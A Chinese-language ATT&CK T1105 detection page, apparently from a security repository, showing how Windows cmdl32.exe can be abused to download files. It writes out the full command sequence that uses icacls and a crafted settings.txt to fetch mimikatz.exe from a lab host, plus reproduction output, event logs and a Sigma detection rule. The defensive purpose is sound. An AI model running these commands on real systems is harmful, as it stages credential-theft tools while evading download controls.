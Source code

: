 # T1105-Win-利用cmdl32进行文件下载行为

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻陷的环境中。可以通过命令和控制通道从外部攻击者控制的系统中复制文件，以便将工具带入被攻陷的网络环境中，或通过与另一个工具（如FTP）的替代协议复制文件。文件也可以在Mac和Linux上使用scp、rsync和sftp等本机工具进行复制。

## 测试案例

cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。

### 步骤一

使用以下命令并且生成相关配置文件。

```yml
icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
set tmp=%cd%
echo [Connection Manager] > settings.txt
echo CMSFile=settings.txt >> settings.txt
echo ServiceName=WindowsUpdate >> settings.txt
echo TunnelFile=settings.txt  >> settings.txt
echo [Settings]  >> settings.txt
echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt
```

### 步骤二

然后继续执行即可下载成功。

```yml
cmdl32 /vpn /lan %cd%\settings.txt
icacls %cd% /remove:d %username%
move VPNBDFF.tmp mimikatz.exe
```

## 检测日志

windows安全日志、其他EDR类产品

## 测试复现

windows server 2016进行测试，测试效果Ok。

```yml
C:\Users\Administrator>cd C:\Users\Administrator\Desktop\test

C:\Users\Administrator\Desktop\test>icacls %cd% /deny %username%:(OI)(CI)(DE,DC)
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>set tmp=%cd%

C:\Users\Administrator\Desktop\test>echo [Connection Manager] > settings.txt

C:\Users\Administrator\Desktop\test>echo CMSFile=settings.txt >> settings.txt

C:\Users\Administrator\Desktop\test>echo ServiceName=WindowsUpdate >> settings.txt

C:\Users\Administrator\Desktop\test>echo TunnelFile=settings.txt  >> settings.txt

C:\Users\Administrator\Desktop\test>echo [Settings]  >> settings.txt

C:\Users\Administrator\Desktop\test>echo UpdateUrl=http://10.211.55.2:8000/mimikatz.exe  >> settings.txt

C:\Users\Administrator\Desktop\test>cmdl32 /vpn /lan %cd%\settings.txt

C:\Users\Administrator\Desktop\test>icacls %cd% /remove:d %username%
已处理的文件: C:\Users\Administrator\Desktop\test
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Users\Administrator\Desktop\test>move VPND1F2.tmp mimikatz.exe
移动了         1 个文件。
```

## 测试留痕

### 日志记录1

```log
创建新进程。4688，windows安全日志

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x40e0
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /deny Administrator:(OI)(CI)(DE,DC)
```

### 日志记录二

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x12c18
 新进程名称: C:\Windows\System32\cmdl32.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x688
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: cmdl32  /vpn /lan C:\Users\wangxin\Desktop\test\settings.txt
```

### 日志记录三

```log
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xE991EB

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x133b8
 新进程名称: C:\Windows\System32\icacls.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x12fac
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: icacls  C:\Users\wangxin\Desktop\test /remove:d Administrator
```

## 检测规则/思路

### sigma规则

```yml

title: Windows下利用cmdl32进行文件下载行为
status: experimental
description:  cmdl32.exe,CMAK（连接管理器管理工具包）使用它来设置连接管理器服务配置文件。配置文件通常打包成一个.exe，可以部署到用户系统。该软件包安装可用于启动拨号/VPN连接的配置文件。攻击者可以利用cmdl32进行简单的文件传输活动。
references:
    - https://www.t00ls.cc/thread-63254-1-1.html
tags:
    - attack.command_and_control
    - attack.execution
    - attack.t1105
logsource:
    product: windows #windows
    service: process_creation #安全事件，进程创建
detection:
    selection:
        ProcessCommandline|contains|all: #进程命令行参数包含以下任意一项
            - 'settings.txt'
        Image|endswith: 
            - 'cmdl32.exe' #进程路径为以wuauclt.exe
    condition: selection
falsepositives:
    - Unknown
level: high
```

### 建议

低版本操作系统无法记录命令行参数及子父进程，建议通过sysmon进行监控。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

cmdl32代替certutil.exe

<https://www.t00ls.cc/thread-63254-1-1.html>
